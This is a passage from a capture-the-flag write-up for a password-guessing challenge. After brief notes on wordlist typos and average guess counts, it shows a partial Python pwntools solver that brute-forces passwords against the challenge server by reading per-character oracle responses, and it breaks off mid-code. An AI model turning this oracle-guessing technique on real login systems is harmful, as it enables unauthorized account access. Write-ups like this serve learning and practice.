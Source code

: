 At this point, I discovered the various typos in my elements and nato alphabet (Removed a -)

It appeared from looking at the data that was no correlation between the sections

However this did also show that on average it was taking ~26.7 incorrected guesses per password which was within parameters.

### Solver

I adapted the guesser to handle the user IDs which gave me, but just did one ID at a time
```python
from pwn import *
from tqdm import tqdm
from collections import Counter
from pwdguessrlists import (
    elements,
    movies,
    days,
    nato_phonetic,
)

HOST = "pwdguessr22222.chal.cybears.io"
PORT = 2323
ALPHABET = string.ascii_lowercase


class SuccessfulConnection(Exception):
    pass


class NotFound(Exception):
    pass


class Timeout(Exception):
    pass


class GuesserSecondary:
    def __init__(self, r):
        self.r = r
        self.r.sendline("1")
        self.user = self.r.recvline().decode().strip()
        log.debug(f"user={self.user!r}")
        self.r.recvline()
        self.password = ""
        self.guesses = 0

    def check(self, password):
        log.debug(f"Check: {password}")
        self.guesses += 1
        self.r.sendline(f"{self.user}:{password}")
        out = self.r.recvline().decode()
        self.r.recvline()
        if out[0] == "0":
            return False
        if out[0] == "_":
            self.password = password
            return True
        if out[0] == "1":
            self.password = password
            raise SuccessfulConnection
        raise ValueError(f"Invalid Out: {out!r}")

    def brute_force(self, password: str = ""):
```